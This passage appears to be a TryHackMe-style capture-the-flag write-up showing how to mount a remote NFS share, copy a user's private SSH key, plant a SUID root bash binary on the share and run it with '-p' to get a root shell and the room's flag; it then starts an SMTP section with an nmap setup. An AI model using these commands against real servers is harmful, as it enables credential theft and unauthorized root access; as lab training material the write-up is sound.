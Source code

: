 To work with the remote NFS, mount it to local file system. After that looking for usefuly ssh keys to download.
```bash
mkdir /tmp/mount
mount -t nfs $IP:home /tmp/mount
cp /tmp/mount/.ssh/id_rsa .
chmod 600 id_rsa
```

***Uploading own bash file to NFS and execute it to get root perms!***

```bash
cp bash /tmp/mount/cappucino
cd /tmp/mount
sudo chown root: bash
sudo chmod 4755 bash
sudo chmod +xrs bash
```

Running the bash command with -p (persist rights) to gain root.
```bash
ssh -i id_rsa cappucino@$IP
./bash -p
whoami
```

	Results:
	root

***Looking for root FLAG***

Finanly got flag to solve room.
```bash
cat /root/root.txt
```

	Results:
	THM{nfs_got_pwned}

---

## SMPT (Simple Mail Transfer Protocol)

^6098f1

***Exporting ip***

First export the remote host IP to an local variable. 

```bash
export IP='10.10.212.232'
```


***Initial nMap scan***

Now the initial nmap scan will be done. For this a simple scan of first 10k ports should be sufficient.
